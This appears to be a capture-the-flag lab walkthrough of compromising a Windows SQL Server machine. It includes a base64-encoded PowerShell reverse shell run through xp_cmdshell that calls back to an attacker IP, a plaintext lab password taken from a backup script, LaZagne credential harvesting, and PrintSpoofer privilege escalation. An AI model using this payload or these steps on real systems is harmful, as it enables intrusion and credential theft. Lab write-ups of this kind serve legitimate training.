




Last time we found a note laying into mail folder of DANTE-ADMIN-NIX06 of Julius's profile and we found a account that let's us login into MSSQL server on 172.16.1.5.

I will use Metasploit's MSSQL enumeration module to enumerate thru the DB:

```
msf6 auxiliary(admin/mssql/mssql_enum) > run
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[*] Running module against 172.16.1.5

[*] 172.16.1.5:1433 - Running MS SQL Server Enumeration...
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.1.5:1433  ...  OK
[*] 172.16.1.5:1433 - Version:
[*]     Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
[*]             Sep 24 2019 13:48:23 
[*]             Copyright (C) 2019 Microsoft Corporation
[*]             Express Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
[*] 172.16.1.5:1433 - Configuration Parameters:
[*] 172.16.1.5:1433 -   C2 Audit Mode is Not Enabled
[*] 172.16.1.5:1433 -   xp_cmdshell is Enabled
[*] 172.16.1.5:1433 -   remote access is Enabled
[*] 172.16.1.5:1433 -   allow updates is Not Enabled
[*] 172.16.1.5:1433 -   Database Mail XPs is Not Enabled
[*] 172.16.1.5:1433 -   Ole Automation Procedures are Not Enabled
[*] 172.16.1.5:1433 - Databases on the server:
[*] 172.16.1.5:1433 -   Database name:master
[*] 172.16.1.5:1433 -   Database Files for master:
[*] 172.16.1.5:1433 -           C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\master.mdf
[*] 172.16.1.5:1433 -           C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\mastlog.ldf
[*] 172.16.1.5:1433 -   Database name:tempdb
[*] 172.16.1.5:1433 -   Database Files for tempdb:
[*] 172.16.1.5:1433 -           C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\tempdb.mdf
[*] 172.16.1.5:1433 -           C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\templog.ldf
[*] 172.16.1.5:1433 -   Database name:model
[*] 172.16.1.5:1433 -   Database Files for model:
[*] 172.16.1.5:1433 -           C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\model.mdf
[*] 172.16.1.5:1433 -           C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\modellog.ldf
[*] 172.16.1.5:1433 -   Database name:msdb
[*] 172.16.1.5:1433 -   Database Files for msdb:
[*] 172.16.1.5:1433 -           C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\MSDBData.mdf
[*] 172.16.1.5:1433 -           C:\Program Files\Microsoft SQL Server\MSSQL15.SQLEXPRESS\MSSQL\DATA\MSDBLog.ldf
[*] 172.16.1.5:1433 - System Logins on this Server:
[*] 172.16.1.5:1433 -   sa
[*] 172.16.1.5:1433 -   ##MS_SQLResourceSigningCertificate##
[*] 172.16.1.5:1433 -   ##MS_SQLReplicationSigningCertificate##
[*] 172.16.1.5:1433 -   ##MS_SQLAuthenticatorCertificate##
[*] 172.16.1.5:1433 -   ##MS_PolicySigningCertificate##
[*] 172.16.1.5:1433 -   ##MS_SmoExtendedSigningCertificate##
[*] 172.16.1.5:1433 -   ##MS_PolicyEventProcessingLogin##
[*] 172.16.1.5:1433 -   ##MS_PolicyTsqlExecutionLogin##
[*] 172.16.1.5:1433 -   ##MS_AgentSigningCertificate##
[*] 172.16.1.5:1433 -   WIN-B4N3R6SPQ5I\Administrator
[*] 172.16.1.5:1433 -   NT SERVICE\SQLWriter
[*] 172.16.1.5:1433 -   NT SERVICE\Winmgmt
[*] 172.16.1.5:1433 -   NT Service\MSSQL$SQLEXPRESS
[*] 172.16.1.5:1433 -   BUILTIN\Users
[*] 172.16.1.5:1433 -   NT AUTHORITY\SYSTEM
[*] 172.16.1.5:1433 -   NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 172.16.1.5:1433 -   sophie
[*] 172.16.1.5:1433 - Disabled Accounts:
[*] 172.16.1.5:1433 -   sa
[*] 172.16.1.5:1433 -   ##MS_PolicyEventProcessingLogin##
[*] 172.16.1.5:1433 -   ##MS_PolicyTsqlExecutionLogin##
[*] 172.16.1.5:1433 - No Accounts Policy is set for:
[*] 172.16.1.5:1433 -   sa
[*] 172.16.1.5:1433 -   sophie
[*] 172.16.1.5:1433 - Password Expiration is not checked for:
[*] 172.16.1.5:1433 -   sa
[*] 172.16.1.5:1433 -   ##MS_PolicyEventProcessingLogin##
[*] 172.16.1.5:1433 -   ##MS_PolicyTsqlExecutionLogin##
[*] 172.16.1.5:1433 -   sophie
[*] 172.16.1.5:1433 - System Admin Logins on this Server:
[*] 172.16.1.5:1433 -   sa
[*] 172.16.1.5:1433 -   WIN-B4N3R6SPQ5I\Administrator
[*] 172.16.1.5:1433 -   NT SERVICE\SQLWriter
[*] 172.16.1.5:1433 -   NT SERVICE\Winmgmt
[*] 172.16.1.5:1433 -   NT Service\MSSQL$SQLEXPRESS
[*] 172.16.1.5:1433 -   sophie
[*] 172.16.1.5:1433 - Windows Logins on this Server:
[*] 172.16.1.5:1433 -   WIN-B4N3R6SPQ5I\Administrator
[*] 172.16.1.5:1433 -   NT SERVICE\SQLWriter
[*] 172.16.1.5:1433 -   NT SERVICE\Winmgmt
[*] 172.16.1.5:1433 -   NT Service\MSSQL$SQLEXPRESS
[*] 172.16.1.5:1433 -   NT AUTHORITY\SYSTEM
[*] 172.16.1.5:1433 -   NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 172.16.1.5:1433 - Windows Groups that can logins on this Server:
[*] 172.16.1.5:1433 -   BUILTIN\Users
[*] 172.16.1.5:1433 - Accounts with Username and Password being the same:
[*] 172.16.1.5:1433 -   No Account with its password being the same as its username was found.
[*] 172.16.1.5:1433 - Accounts with empty password:
[*] 172.16.1.5:1433 -   No Accounts with empty passwords where found.
[*] 172.16.1.5:1433 - Stored Procedures with Public Execute Permission found:
[*] 172.16.1.5:1433 -   sp_replsetsyncstatus
[*] 172.16.1.5:1433 -   sp_replcounters
[*] 172.16.1.5:1433 -   sp_replsendtoqueue
[*] 172.16.1.5:1433 -   sp_resyncexecutesql
[*] 172.16.1.5:1433 -   sp_prepexecrpc
[*] 172.16.1.5:1433 -   sp_repltrans
[*] 172.16.1.5:1433 -   sp_xml_preparedocument
[*] 172.16.1.5:1433 -   xp_qv
[*] 172.16.1.5:1433 -   xp_getnetname
[*] 172.16.1.5:1433 -   sp_releaseschemalock
[*] 172.16.1.5:1433 -   sp_refreshview
[*] 172.16.1.5:1433 -   sp_replcmds
[*] 172.16.1.5:1433 -   sp_unprepare
[*] 172.16.1.5:1433 -   sp_resyncprepare
[*] 172.16.1.5:1433 -   sp_createorphan
[*] 172.16.1.5:1433 -   xp_dirtree
[*] 172.16.1.5:1433 -   sp_replwritetovarbin
[*] 172.16.1.5:1433 -   sp_replsetoriginator
[*] 172.16.1.5:1433 -   sp_xml_removedocument
[*] 172.16.1.5:1433 -   sp_repldone
[*] 172.16.1.5:1433 -   sp_reset_connection
[*] 172.16.1.5:1433 -   xp_fileexist
[*] 172.16.1.5:1433 -   xp_fixeddrives
[*] 172.16.1.5:1433 -   sp_getschemalock
[*] 172.16.1.5:1433 -   sp_prepexec
[*] 172.16.1.5:1433 -   xp_revokelogin
[*] 172.16.1.5:1433 -   sp_execute_external_script
[*] 172.16.1.5:1433 -   sp_resyncuniquetable
[*] 172.16.1.5:1433 -   sp_replflush
[*] 172.16.1.5:1433 -   sp_resyncexecute
[*] 172.16.1.5:1433 -   xp_grantlogin
[*] 172.16.1.5:1433 -   sp_droporphans
[*] 172.16.1.5:1433 -   xp_regread
[*] 172.16.1.5:1433 -   sp_getbindtoken
[*] 172.16.1.5:1433 -   sp_replincrementlsn
[*] 172.16.1.5:1433 - Instances found on this server:
[*] 172.16.1.5:1433 -   SQLEXPRESS
[*] 172.16.1.5:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 172.16.1.5:1433 -   xp_regread might be disabled in this system
[*] Auxiliary module execution completed
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
msf6 auxiliary(admin/mssql/mssql_enum) >
```

And we can see that both xp\_dirtree and xp\_cmdshell are active on the machine.  Now we could try to steal the NTLM hashes via XP\_DIRTREE and using Responder but since we are using the Proxychains could be problematic.

Anyway XP\_CMDSHELL is already active and I will use it to catch a working revshell!. Using CMDSHELL stored procedure I will invoke a revshell:

```
SQL (sophie  dbo@msdb)> xp_cmdshell "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA3AC4AMQAwADcAIgAsADUANQA1ADUAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

And we are in:



Checking on Root C: we can find a powershell script that does backups of the SQL and here we can unveil Sophies Windows Account:

```
PS C:\DB_backups> ls


    Directory: C:\DB_backups


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       31/07/2020     17:40                SQL                                                                   
-a----       31/07/2020     17:42           1088 db_backup.ps1                                                         


PS C:\DB_backups> cat db_backup.ps1
# Work in progress database backup script. Adapting from mysql backup script. Does not work yet. Do not use.

$password = 'Alltheleavesarebrown1'
$user = 'sophie'
$cred = New-Object System.Net.NetworkCredential($user, $password, "")

$date = Get-Date
$dateString = $date.Year.ToString() + "-" + $date.Month.ToString() + "-" + $date.Day.ToString()

#Create symbolic link for sqldump.exe in the script folder
$sqldumpLocation = \.sqldump.exe
$backupDest = C:\DB_backups\SQL\sql_backup_"+ $dateString + ".sql"

$execute_sqldump = $sqldumpLocation+" -u"+$cred.UserName+" -p"+$cred.Password +" > " + $backupDest


invoke-expression $execute_sqldump


# use 7zip to compress and encrypt the backup with same password as used to autheticate the sql backup user
# removes the unencrypted .sql file afterwards
# create symbolic link for 7z.exe in the script folder
$sevenzip = ".#7z.exe"
$zipfile = $backupDest.Replace(".sql",".7z")
$execute7zip = $sevenzip+" a -t7z "+$zipfile+" "+$backupDest+" -p"+$cred.Password
invoke-expression $execute7zip
Remove-Item $backupDest
PS C:\DB_backups>
```

* * *

## PE:

Checking we have only Sophie and Administrator:

```
PS C:\> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
sophie                   
The command completed with one or more errors.

PS C:\> net group
```

and seems like only Administrator is part of Administrators:

```
PS C:\> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.
```

and like so we can grab another flag from root User folder:

```
PS C:\USers> ls


    Directory: C:\USers


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       22/03/2021     11:28                Administrator                                                         
d-----       22/03/2021     11:28                MSSQL$SQLEXPRESS                                                      
d-r---       22/03/2021     11:26                Public                                                                
d-----       02/03/2021     11:32                sophie                                                                
d-----       22/03/2021     11:28                SQLTELEMETRY$SQLEXPRESS                                               
-a----       08/01/2021     12:52             24 flag.txt                                                              


PS C:\USers> cat flag.txt
DANTE{Mult1ple_w4Ys_in!}
PS C:\USers>
```

Checking systeminfo shows that this DB is not domain joined:

```
PS C:\USers> systeminfo

Host Name:                 DANTE-SQL01
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30815-99252-AA918
Original Install Date:     16/06/2020, 10:49:39
System Boot Time:          07/09/2023, 04:59:01
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 07/08/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume3
System Locale:             en-gb;English (United Kingdom)
Input Locale:              00004009
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,593 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,252 MB
Virtual Memory: In Use:    1,547 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB3192137
                           [02]: KB3211320
                           [03]: KB4054590
                           [04]: KB3213986
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.1.5
                                 [02]: fe80::f15a:bcff:eece:6228
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

With sophies credentials we found into Powershell script we can login via WIN-RM and get a more stable connection to the machine:



Running Lazagne.exe shows nothing, and knowing that this machine is not somehow domain joined we can stop here after we pwned it:

```
PS C:\Temp> ./lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 4.531135082244873
PS C:\Temp>
```

I will run Winpeas just in case to check for other possible PE vectors, otherwise PrintSpoofer or other similar tools like RoguePotato, SharpefsPotato will let us evelate to NT System since we have Impersonation tokens on the MSSQL service account shell:

```
PS C:\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Temp>
```

But before that Winpeas shows that:

```
ÉÍÍÍÍÍÍÍÍÍ͹ Installed Applications --Via Program Files/Uninstall registry--
È Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\FileZilla FTP Client
    C:\Program Files\Internet Explorer
    C:\Program Files\Microsoft
    C:\Program Files\Microsoft Analysis Services
    C:\Program Files\Microsoft SQL Server
    C:\Program Files\Microsoft Visual Studio 10.0
    C:\Program Files\Microsoft.NET
    C:\Program Files\Uninstall Information
    C:\Program Files\VMware
    C:\Program Files\Windows Defender
    C:\Program Files\Windows Mail
    C:\Program Files\Windows Media Player
    C:\Program Files\Windows Multimedia Platform
    C:\Program Files\Windows NT
    C:\Program Files\Windows Photo Viewer
    C:\Program Files\Windows Portable Devices
    C:\Program Files\Windows Sidebar
    C:\Program Files\WindowsApps
    C:\Program Files\WindowsPowerShell
```

So launching the Printspoofer.exe from MSSQL shell session:



We can catch a new shell, but this time elevated as NT SYSTEM and grab last flag:



Judging the flag name I guess this was the indented way and no need to dig any further.

* * *

## POST:

I really liked this challenge, was not difficult where mostly of the exploits were working out of the box. I managed in almost all the ways to do it by myself but I confess I had to check for tips to not fall in Rabbit holes or lose time with "unintended" solutions.

There were 2 PE that involved buffer overflows one on WIndows I managed to bypass by using a PrintNighmare exploit instead(UNINTENDED) but another on Linux need to use the BufferOverflow to catch the last ever flag.

The file is /readfiles in the "DANTE-ADMIN-NIX05" machine!